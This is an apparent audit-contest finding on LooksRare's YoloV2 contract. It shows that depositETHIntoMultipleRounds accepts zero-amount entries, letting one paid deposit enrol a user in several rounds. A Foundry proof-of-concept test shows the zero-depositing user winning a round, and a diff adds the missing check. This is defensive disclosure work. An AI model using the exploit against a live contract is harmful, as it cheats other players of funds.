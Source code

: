 Gentle Orange Panda

high

# `YoloV2::depositETHIntoMultipleRounds` allows for zero amount deposits

## Summary

The `YoloV2::depositETHIntoMultipleRounds` function lacks verification if `depositAmount` is zero, making it possible for a user to participate in a round for no cost and potentially win.

## Vulnerability Detail

When using the `YoloV2::depositETHIntoMultipleRounds` function, a user must pay some ETH.

```solidity
if (msg.value == 0 || numberOfRounds == 0) {
    revert ZeroDeposits();
}
```

There are also two checks::
- Every value in the `amounts` array must be divisible by `roundValuePerEntry` without a remainder.
```solidity
if (depositAmount % roundValuePerEntry != 0) {
	revert InvalidValue();
}
```
  
- The total sum of all values in the `amounts` array must be equal to `msg.value`.
```solidity
if (expectedValue != msg.value) {
    revert InvalidValue();
}
```

However, there is no check that ensures the value in the `amounts` array is equal to zero, which, when divided, does not leave a remainder.

Consequently, an array where all values are zero, except for one equal to the `roundValuePerEntry` amount, would be considered valid.

## POC

Add this test to the `Yolo_DepositETHIntoMultipleRounds_Test`.

```solidity
function test_depositETHIntoMultipleRounds_ZeroAmount() public {
    uint96 value = yolo.valuePerEntry();

    uint256[] memory amounts = new uint256[](1);
    amounts[0] = value;

    vm.deal(user1, value);
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: value}(amounts);

    amounts = new uint256[](5);
    amounts[0] = 0;
    amounts[1] = 0;
    amounts[2] = 0;
    amounts[3] = 0;
    amounts[4] = value;

    vm.deal(user2, value);
    vm.prank(user2);
    yolo.depositETHIntoMultipleRounds{value: value}(amounts);

    (, , , , , uint40 numberOfParticipants, , , , IYoloV2.Deposit[] memory deposits) = yolo.getRound(1);

    assertEq(numberOfParticipants, 2);
    assertEq(deposits.length, 2);

    assertEq(deposits[0].tokenAmount, value);
    assertEq(deposits[0].depositor, user1);
    assertEq(deposits[0].currentEntryIndex, 1);

    assertEq(deposits[1].tokenAmount, 0);
    assertEq(deposits[1].depositor, user2);
    assertEq(deposits[1].currentEntryIndex, 1);

    vm.warp(block.timestamp + ROUND_DURATION);
    yolo.drawWinner();

    uint256[] memory randomWords = new uint256[](1);
    randomWords[0] = 1;

    vm.prank(VRF_COORDINATOR);
    VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

    (, , , , , , address winner, , , ) = yolo.getRound(1);
    assertEq(winner, user2);
}
```

## Impact

This vulnerability allows a user to enroll in an unlimited number of rounds, provided they only pay for one.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362

## Tool used

Manual Review

## Recommendation

```diff
diff --git a/contracts-yolo/contracts/YoloV2.sol b/contracts-yolo/contracts/YoloV2.sol
index b8afe96..cb075c2 100644
--- a/contracts-yolo/contracts/YoloV2.sol
+++ b/contracts-yolo/contracts/YoloV2.sol
@@ -335,9 +335,10 @@ contract YoloV2 is
             _incrementUserDepositCount(roundId, round);

             uint256 depositAmount = amounts[i];
-            if (depositAmount % roundValuePerEntry != 0) {
+            if (depositAmount == 0 || depositAmount % roundValuePerEntry != 0) {
                 revert InvalidValue();
             }
             uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
             expectedValue += depositAmount;
```
